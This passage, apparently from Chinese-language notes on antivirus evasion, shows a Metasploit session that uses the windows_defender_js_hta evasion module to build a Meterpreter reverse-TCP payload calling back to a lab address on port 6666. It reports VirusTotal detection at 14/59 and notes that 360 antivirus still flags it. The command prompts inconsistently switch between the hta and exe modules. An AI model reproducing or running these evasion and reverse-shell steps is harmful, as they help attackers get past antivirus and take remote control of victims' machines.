 VT：

![image-20220527090002712](./images/202205270900839.png)

### 生成hta(VT查杀率14/59)

用另外一个evasion模块`windows/windows_defender_js_hta`生成一下，360同样被杀。

```
msf6 > use windows/windows_defender_js_hta
msf6 evasion(windows/windows_defender_exe) > set filename payload1.exe
msf6 evasion(windows/windows_defender_exe) > set payload windows/meterpreter/reverse_tcp
msf6 evasion(windows/windows_defender_exe) > set LHOST 192.168.174.128
msf6 evasion(windows/windows_defender_exe) > set LPORT 6666
msf6 evasion(windows/windows_defender_exe) > run
```
